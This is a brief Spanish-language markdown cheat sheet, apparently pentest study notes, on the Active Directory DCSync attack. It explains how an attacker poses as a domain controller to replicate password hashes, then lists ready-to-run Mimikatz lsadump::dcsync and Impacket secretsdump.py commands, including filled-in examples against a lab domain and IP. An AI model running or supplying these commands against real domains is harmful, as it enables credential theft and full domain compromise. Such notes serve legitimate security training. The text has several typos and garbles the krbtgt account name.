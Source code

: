 # DC Sync Attack

## Explicación rápida
- Replica las credenciales de un dominio, el atacante pretende ser un DC pidiendole al otro DC "hey, soy un DC02, dame tus hashes".
- Ciertos usuarios como los DC tienen parmisos para replicar datos, entonces imita el comportamiento de otro DC para solicitar esta data.
- Entonces un atacante puede obtener hashes almacenados en el DC utilizando un usuario como **krbgt** o de cualquier usuario con privilegios altos.


## Mimikatz
- `privilege::debug`
- `lsadump::dcsync /domain:NOMBRE_DOMINIO /user:USUARIO`
- `lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator`

## Secrets Dump
- La hereramienita envía una solicitud al DC para replicar los objetos del dominio y así extraer hashes.
- `secretsdump.py <dominio>/<usuario>:<contraseña>@<IP_del_DC>`
- `secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5`